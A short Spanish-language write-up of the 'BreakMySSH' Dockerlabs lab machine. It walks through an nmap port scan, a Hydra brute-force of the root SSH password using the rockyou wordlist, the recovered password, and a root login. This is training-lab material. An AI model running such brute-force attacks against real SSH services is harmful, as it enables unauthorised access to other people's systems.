



# Writeup: BreakMySSH &mdash; Dockerlabs
- **Dificultad**: Muy Fácil
- **Plataforma**: Dockerlabs
- **IP Objetivo**: 172.17.0.2
- **Técnicas Clave**: Escaneo de puertos (Nmap), Fuerza Bruta SSH (Hydra), Autenticación Directa como SU

### Reconocimiento y Escaneo de Puertos
Se ejecutó un escaneo completo de puertos TCP sobre el objetivo:

    $ nmap -p- --open -sS -sC -sV 172.17.0.2 -n -Pn


#### Puertos Descubiertos:
- **22/tcp**: Único servicio expuesto en el sistema objetivo.

### Acceso Inicial
Al no existir superficie web u otros servicios auxiliares, se procedio a realizar una entrada de fuerza
bruta directa al servicio SSH contra la cuenta _**root**_ utilizando *Hydra* y el diccionario _**rockyou.txt**_:

    $ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 -f -V


### Credenciales Obtenidas:
- **Usuario**: root
- **Contraseña**: estrella

### Acceso y Validación de Privilegios
Tras limpiar la entrada previa del host en ```~/.ssh/known_hosts```, se estableció la sesión remota:

    $ ssh root@172.17.0.2
Validación de identidad dentro del contenedor:<br>


No se requirió escalada adicional de privilegios debido a que las credenciales comprometidas correspondian
directamente al superusuario.
